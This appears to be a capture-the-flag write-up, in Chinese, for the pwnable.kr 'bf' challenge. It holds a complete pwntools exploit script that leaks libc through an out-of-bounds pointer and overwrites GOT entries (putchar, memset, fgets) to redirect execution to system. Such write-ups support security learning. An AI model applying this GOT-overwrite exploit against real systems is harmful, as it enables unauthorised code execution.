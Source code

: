 ```
    case '>':
      result = p++ + 1;
      break;
    case '[':
      result = puts("[ and ] not supported.");
      break;
    default:
      return result;
  }
  return result;
}
```

该函数存在任意地址写，范围不超过1024左右个字节，而p指针不远处就是got表，所以可以通过修改putchar的地址为"main"函数地址，修改"memset"地址为"gets"函数地址，修改"fgets"地址为"system"地址。

需要注意的是，首先需要leak出libc的地址。

```
from pwn import *

debug = 0

#libc = ELF("/lib/i386-linux-gnu/libc-2.23.so")
libc = ELF("./bf_libc.so")
context.log_level = "debug"

if debug:
    p = process("./bf")
else:
    p = remote("pwnable.kr", 9001)

main_address = 0x8048671
tape_address = 0x804A0A0
putchar_got_address = 0x804A030
p.recvuntil("[ ]\n")

# the first "." is used to run the putchar function,and then the putchar_got_address will have the true putchar_address
# get the libc_address
payload = "." + "<" * (tape_address - putchar_got_address) + ".>.>.>."

#modify putchar
payload += "<<<,>,>,>,"
# modify memset
payload += "<<<<<<<,>,>,>,"
# modify fgets
payload += "<" * 31 + ",>,>,>,."
p.sendline(payload)
print payload
putchar_address = u32(p.recvn(5)[1:])
print "put_address: ", hex(putchar_address)
libc_base = putchar_address - libc.symbols['putchar']
print "libc_base: ",hex(libc_base)

gets_address = libc_base + libc.symbols['gets']
print "gets_address: ", hex(gets_address)
system_address = libc_base + libc.symbols['system']
print "system_address: ", hex(system_address)
#attach(p)
p.send(p32(main_address) + p32(gets_address))
#attach(p)
p.send(p32(system_address))
p.recvuntil("[ ]")
```